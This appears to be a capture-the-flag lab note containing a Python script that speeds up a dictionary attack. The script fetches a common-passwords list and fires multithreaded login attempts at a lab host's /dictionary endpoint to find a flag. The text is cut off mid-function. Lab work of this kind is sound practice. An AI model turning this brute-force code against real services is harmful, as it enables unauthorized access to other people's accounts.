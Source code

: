 # Question
---

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250213135222.png)

Let's modify the script to make it faster:

```python
import requests
from concurrent.futures import ThreadPoolExecutor
import time

ip = "94.237.53.18"
port = 42926
MAX_THREADS = 50  # Optimal for network I/O bound tasks
BATCH_SIZE = 100  # Number of passwords to process before reporting progress

# Create a persistent session with connection pooling
session = requests.Session()
adapter = requests.adapters.HTTPAdapter(pool_connections=MAX_THREADS, pool_maxsize=MAX_THREADS)
session.mount('http://', adapter)

# Get password list with timeout and retry logic
passwords = []
try:
    resp = session.get(
        "https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/500-worst-passwords.txt",
        timeout=10
    )
    passwords = resp.text.splitlines()
except Exception as e:
    print(f"Failed to fetch passwords: {str(e)}")
    exit(1)

found_flag = None
attempt_count = 0
start_time = time.time()

def test_password(password):
    global found_flag, attempt_count
    if found_flag:
        return
    
    try:
        # Stream response to handle large responses efficiently
        with session.post(
            f"http://{ip}:{port}/dictionary",
            data={'password': password},
            timeout=5,
            stream=True
        ) as response:
            if response.ok:
                json_response = response.json()
                if 'flag' in json_response:
                    found_flag = (password, json_response['flag'])
    
    except Exception as e:
        pass  # Silent error handling for speed
    
    # Thread-safe counter update and progress reporting
    attempt_count += 1
    if attempt_count % BATCH_SIZE == 0:
```